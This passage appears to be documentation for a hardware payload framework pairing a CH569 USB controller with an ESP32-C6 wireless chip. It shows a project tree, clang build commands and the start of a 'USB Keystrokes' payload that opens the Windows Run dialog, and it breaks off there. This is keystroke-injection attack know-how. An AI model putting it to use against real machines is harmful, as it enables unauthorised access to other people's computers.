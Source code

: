 ```
 │   │   └── serial_port.cpp   # Serial port utilities
 │   └── CMakeLists.txt        # Build config for tools
 │
 ├── docs/                     # Documentation
 │   ├── api/                  # API reference
 │   ├── hardware/             # Hardware design docs
 │   └── tutorials/            # Tutorials and guides
 │
 ├── cmake/                    # CMake modules
 │   ├── ch569_toolchain.cmake # CH569-specific toolchain
 │   └── esp32c6_toolchain.cmake # ESP32-C6-specific toolchain
 │
 ├── build.sh                  # Build script helper
 ├── CMakeLists.txt            # Top-level CMake file
 └── README.md                 # Project documentation
```

## Unified LLVM Development

### Building Payloads
All payloads can be built using standard LLVM tools:

```sh
# For CH569 (USB controller)
clang -target riscv32-unknown-none-elf -mcpu=rv32imac -O2 \
    -I../common -o usb_payload.elf usb_payload.c

# For ESP32-C6 (Wireless controller)
clang -target riscv32-unknown-none-elf -mcpu=rv32imac -O2 \
    -I../common -o wireless_payload.elf wireless_payload.c
```

### Multi-Vector Payload Example

```cpp
// shared_definitions.h - Used by both chips
#pragma once

enum PayloadTriggers {
  TRIGGER_USB_CONNECTED,
  TRIGGER_WIFI_TARGET_FOUND,
  TRIGGER_BLUETOOTH_PROXIMITY,
  TRIGGER_TIME_ELAPSED
};

struct PayloadContext {
  uint8_t target_os;
  uint8_t security_level;
  uint32_t capabilities;
  char hostname[32];
};

// USB Payload for CH569 (usb_component.c)
#include "payload_framework.h"
#include "shared_definitions.h"

PAYLOAD_INFO("USB Keystrokes", "1.0", PAYLOAD_PRIORITY_HIGH);

void payload_main(PayloadContext* ctx) {
  // Check target OS from context
  if (ctx->target_os == OS_WINDOWS) {
    // Send Windows-specific keystrokes
    Keyboard::sendWinKey('r');
```
